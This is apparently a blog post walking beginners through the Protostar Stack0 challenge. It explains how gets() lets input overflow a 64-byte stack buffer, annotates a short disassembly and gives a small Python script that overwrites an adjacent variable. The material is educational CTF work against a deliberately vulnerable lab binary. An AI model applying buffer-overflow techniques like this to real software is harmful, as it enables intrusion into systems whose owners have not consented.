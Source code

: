 ```yaml
---
author: Nithissh S
pubDatetime: 2020-06-07T15:22:00Z
modDatetime: 2020-06-07T09:12:47.400Z
title: Hacking My Way Through Protostar - A Noob's Guide to Buffer Overflows
slug: protostar-ctf
featured: false
draft: false
tags:
  - CTF
description:
  Walkthrough of Protostar from exploit exercises  
---
```


# Introduction

Hey there! 👋 After banging my head against the wall for weeks learning about buffer overflows, I thought I'd share my journey through the Protostar challenges. Trust me, if I can get through these, you can too!

## The Basics: What the Heck is a Buffer Overflow?

You know when you're pouring a drink and accidentally overflow your glass? That's basically what a buffer overflow is in programming. Your program has these containers (buffers) for storing data, and if you try to stuff more data than they can hold... well, things get messy.

## Stack0: Baby's First Buffer Overflow

When I first started Protostar, Stack0 looked intimidating. But it's actually pretty simple once you break it down.

Here's what's happening:
- The program has a buffer (think of it as a box) that can hold 64 characters
- There's also a variable called `modified` sitting right after it in memory
- Our job? Overflow that buffer to change `modified`

Let's look at the assembly (don't panic, I'll explain!):
```asm
80483fa:       sub    $0x60,%esp        ; Making room on the stack
80483fd:       movl   $0x0,0x5c(%esp)   ; Setting modified = 0
8048405:       lea    0x1c(%esp),%eax   ; Getting buffer's address
804840c:       call   804830c <gets@plt> ; Oh no, they used gets()!
```

The program uses `gets()` which is like that friend who never says "no" - it'll keep taking input until it hits a newline, regardless of buffer size. Bad for security, great for us! 

Here's our exploit:
```python
#!/usr/bin/env python

# Fill up the 64-byte buffer with 'A's
# Then add some 'X's to overflow into modified
SH = 'A'*64 + 'XXXX'
print(SH)
```
